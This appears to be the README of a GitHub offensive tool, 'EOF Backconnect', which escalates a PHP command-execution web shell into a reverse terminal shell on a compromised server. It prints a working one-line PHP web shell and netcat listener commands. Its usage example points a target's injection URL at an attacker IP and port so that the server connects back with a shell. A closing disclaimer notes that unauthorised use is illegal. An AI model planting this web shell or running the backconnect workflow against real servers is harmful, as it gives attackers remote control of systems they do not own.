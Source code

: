 # EOF Backconnect
A simple script to perform various methods to gain a terminal shell from a simple PHP shell.

## Introduction
After gaining a command execution shell on a server, this script will help leverage that into a backconnected terminal shell using various payloads.

##### Example PHP Shell:
```
<?php system($_GET['cmd']); ?>
```

## Usage
1. Install the command execution shell so it is publically accesible via a URL.
2. Set up a listener to receive the incoming connection.
	- `nc -nvlp {PORT}`
	- `nc -nvlp {PORT} -s {HOST}`
3. Run this script.

## How to use

```
./eof-backconnect.py [-u URL] [-i IP] [-p PORT]
```
##### URL
This is the URL of the command execution shell, including the necessary injection parameter.

##### IP
This is the listener IP for the remote server to backconnect to.

##### PORT
This is the listener port for the target server to backconnect over.

#### Example:
```
./eof-backconnect.py -u http://example.com/cmd.php?cmd= -i 10.10.15.96 -p 1337
```

## Disclaimer
Usage of this tool for attacking targets without prior mutual consent
is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or
damage caused by this program
